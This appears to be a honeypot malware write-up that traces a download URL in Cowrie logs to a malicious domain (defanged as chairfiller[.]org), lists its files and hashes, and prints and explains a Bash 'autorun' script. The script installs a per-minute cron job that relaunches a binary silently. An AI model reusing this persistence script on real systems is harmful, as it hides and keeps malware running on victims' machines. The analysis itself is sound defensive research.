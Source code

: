 ### The story
I was looking at my honey pot logs using the following command.<br>
<br>
`cat cowrie.json* | jq '. | select(.eventid | contains("cowrie.session.file_download")) | .url' | grep -v "null" | sort | uniq -c | sort -bgr | head -n 10`
The command scrapes the log files and displays the top 10 URLS that were used to download files. 

Usually the top 10 contains IP's not domains. The last result caught my eye because it contained the domain name: http://chairfiller[.]org/smtp.

The first thing I did was use  the tool, Dirseach on the domain. This tool uses a list of popular file names and will check to see
if the file exists. 

<img src="https://i.imgur.com/aq4XhPX.png" alt="chairfiller[.]org dirsearch" width="225" height="250">


The Figure above shows the files and directories that were found by the tool. 
<ul>
  <li>/authorized_keys</li>
  <li>/a</li>
  <li>/echo</li>
  <li>/f</li>
  <li>/archive.zip</li>
  <li>/perl</li>
  <li>/phptest.php</li>
  <li>/setup</li>
  <li>/test</li>
</ul>  

The list above shows some of the more intresting files.
<img src="https://i.imgur.com/cZDgh63.png" alt="chairfiller[.]org/a" width="225" height="250">
The Figure above shows that when you visit `chairfiller[.]org/a` the visitor is shown the file system where there is a hidden directory named .b. 

<img src="https://i.imgur.com/gMnIksc.png" alt="chairfiller[.]org/a/.b" width="100" height="125">

The Figure above shows the contents of the `chairfiller[.]org/a/.b/` directory. The contents of the directory contains files for windows and linux based operating systems. 

One of the files in the directory is a file named autorun. 

```bash
#!/bin/sh
pwd > dir
dir=$(cat dir)
echo "* * * * * $dir/update >/dev/null 2>&1" > cron
crontab cron
crontab -l | grep update
echo "#!/bin/sh
if test -r $dir/pid; then
pid=\$(cat $dir/pid)
if \$(kill -CHLD \$pid >/dev/null 2>&1)
then
exit 0
fi
fi
cd $dir
./run &>/dev/null" > update
chmod u+x update

```
The Figure above shows the contents of the file located at `http://chairfiller.org/a/.b/autorun`.

The autorun Figure shown above is a Bash script. The first thing the script does create a new that will contain the machine's home directory file path. This file is named dir. Next the script creates a variable named dir. Whe $dir is called the script will use the cat command to read the contents of the dir file. After that variable is created the script will use the echo command to create a new cron job that will use the $dir variable created earlier to get the machines home path. The next line is where the script will add the cron to the crontab. 

The script use the the command `crontab -l` to list the machines cronjob.The script will also use the `grep` command to look for cronjobs that contain the string "update".




####
<ul>
  <li>e4eda70e5c4daccdffb71ff79e4877bd57f81f80  echo</li>
  <li>a8ab84485735cec4e44c2f6db03d6f57c8533b4c  archive.zip</li>
  <li>24d99819577424c9b7eda952017988d119683c95  perl</li>
  <li>e417ab727cf42a1dcc180bb03fb05e1ecdcdb523  authorized_keys</li>
</ul>
